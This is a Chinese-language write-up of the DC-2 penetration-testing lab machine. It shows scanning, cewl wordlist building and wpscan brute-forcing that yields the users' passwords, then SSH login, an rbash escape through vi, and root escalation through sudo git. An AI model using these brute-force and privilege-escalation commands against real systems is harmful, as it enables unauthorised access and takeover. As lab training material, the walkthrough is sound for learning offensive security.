```yaml
---
layout: post
title: DC-2
subtitle: DC-2
date: 2023-07-08 09:27
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


主机发现

![Pasted%20image%2020250708092821.png300](https://img.ghostliner.top/JuHdN2.png)

发现`192.168.163.131`，端口扫描
![Pasted%20image%2020250708092929.png300](https://img.ghostliner.top/siB1ce.png)

访问 80 端口，被重定向到 <http://DC-2> ，修改 hosts 即可访问

目录扫描，发现 wp-admin 后台登陆路径

访问站点，获取到 flag1，按提示使用 cewl
![Pasted%20image%2020250708093111.png300](https://img.ghostliner.top/8nOtgC.png)

```shell
cewl http://dc-2/wp-login.php -w pass.txt
wpscan --url http://dc-2/ -e u
# admin jerry tom
echo -e "admin\njerry\ntom" > user.txt
wpscan --url http://DC-2 -e -U user.txt -P pass.txt
# Username: jerry, Password: adipiscing
# Username: tom, Password: parturient
```

![Pasted%20image%2020250708100011.png300](https://img.ghostliner.top/6uYNfN.png)

![Pasted%20image%2020250708095958.png300](https://img.ghostliner.top/1iq7uw.png)

```shell
ssh tom@DC-2 -p 7744
compgen -c
vi flag3.txt
```

获取 flag3

![Pasted%20image%2020250708100605.png300](https://img.ghostliner.top/fAT1Xa.png)

rbash 提权

```shell
vi flag3.php
:set shell=/bin/sh
:shell
```

进入 sh

```shell
export PATH=$PATH:/bin
su jerry
# 输入密码
```

获取 flag4

![image.png300](https://img.ghostliner.top/g9FLWN.png)

```shell
sudo -l
# 显示：(root) NOPASSWD: /usr/bin/git
sudo git help config
!/bin/bash
```

提权到 root 用户，获取 flag5

![image.png300](https://img.ghostliner.top/7JcS8d.png)
